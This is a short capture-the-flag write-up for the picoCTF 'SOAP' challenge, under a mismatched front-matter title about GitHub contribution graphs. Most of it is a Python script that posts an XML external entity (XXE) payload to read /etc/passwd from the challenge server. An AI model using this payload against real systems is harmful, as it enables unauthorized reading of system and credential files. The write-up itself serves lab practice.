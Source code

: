 ```yaml
---
title: How to hack GitHub contribution graph
published: Apr 1, 2023
language: English
---
```


# SOAP

**100 points**

AUTHOR: GEOFFREY NJOGU

Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
Additional details will be available after launching your challenge instance.

---

using this python script you can get the flag by sending a request using python

```python
import requests

headers = {
    'Host': 'saturn.picoctf.net:port',
    # 'Content-Length': '126',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36',
    'Content-Type': 'application/xml',
    'Accept': '/',
    'Origin': 'http://saturn.picoctf.net:port/',
    'Referer': 'http://saturn.picoctf.net:port/',
    # 'Accept-Encoding': 'gzip, deflate',
    'Accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
    'Connection': 'close',
}

data = '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]><data><ID>&example;1</ID></data>'

response = requests.post('http://saturn.picoctf.net:port/data', headers=headers, data=data, verify=False)

print(response)
```

And we can see flag in the repsonse:

> picoCTF{your flag}
